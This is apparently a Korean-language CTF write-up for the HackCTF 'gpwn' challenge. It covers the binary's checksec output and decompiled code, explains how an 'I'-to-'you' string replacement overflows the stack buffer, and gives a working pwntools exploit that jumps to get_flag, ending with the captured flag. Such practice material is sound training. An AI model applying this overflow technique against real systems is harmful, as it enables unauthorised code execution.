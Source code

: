 # g++ pwn

```c
kimdong@ubuntu  ~/Wargame/200~250  file gpwn
gpwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=4b1df4d30f1d6b75666c64bed078473a4ad8e799, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec gpwn
[*] '/home/kimdong/Wargame/200~250/gpwn'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```
이번 바이너리는 32-bit로 mitigation은 하나도 걸려있지 않다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./gpwn
Tell me something about yourself: aaaaaaaaaaaaaaaaaaaaaa
So, aaaaaaaaaaaaaaaaaaaaaa

```
실행을 시키면, 문자열과 함께 사용자의 입력값을 받고, 사용자의 입력값을 다시 출력해준다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```
main문은 간단하고 vuln()함수를 보도록 하자.<br>

```c
int vuln()
{
  const char *v0; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v3; // [esp+3Ch] [ebp-1Ch]
  char v4; // [esp+40h] [ebp-18h]
  char v5; // [esp+47h] [ebp-11h]
  char v6; // [esp+48h] [ebp-10h]
  char v7; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v5);
  std::string::string(&v4, "you", &v5);
  std::allocator<char>::allocator(&v7);
  std::string::string(&v6, "I", &v7);
  replace((std::string *)&v3);
  std::string::operator=(&input, &v3, &v6, &v4);
  std::string::~string(&v3);
  std::string::~string(&v6);
  std::allocator<char>::~allocator(&v7);
  std::string::~string(&v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v0);
  return printf("So, %s\n", &s);
}
```
vlun함수는 fgets(),replace(), strcpy()와 같은 함수를 사용한다.<br>
fgets()는 버퍼의 크기가 60인데 32Byte만 받기때문에, BOF는 불가해 보인다.<br>
replace()의 경우는, 문자열 `I`를 `you`로 치환하기 때문에, 64Byte까지 증가시킬수 있을것같다.<br>
`I`에서 `you`로 치환될수 2Byte가 증가하므로, I를 21개 입력해주고, 더미를 1 Byte추가해준면 총 64Byte를 덮고, ret에 넣어줄 주소를 찾으면 문제해결이 가능하다.<br>

```c
int get_flag()
{
  return system("cat flag.txt");
}
```
ida로  함수를 분석한 결과, `get_flag`라는 flag를 보여주는 함수가 있었다.<br>
ret의 주소를 이 함수로 바꿔주면 문제를 해결가능할 것으로 보인다.<br>
이 함수의 주소는 `0x08048f0d`이다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3011)

get_flag_address = 0x08048f0d
payload = "I"*21
payload += "A"
payload += p32(get_flag_address)
p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame/200~250  python gpwn_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3011: Done
[*] Switching to interactive mode
HackCTF{It's_e4si3r_th4n_y0u_th1nk!}
[*] Got EOF while reading in interactive
$ ls
$  
```

## END !
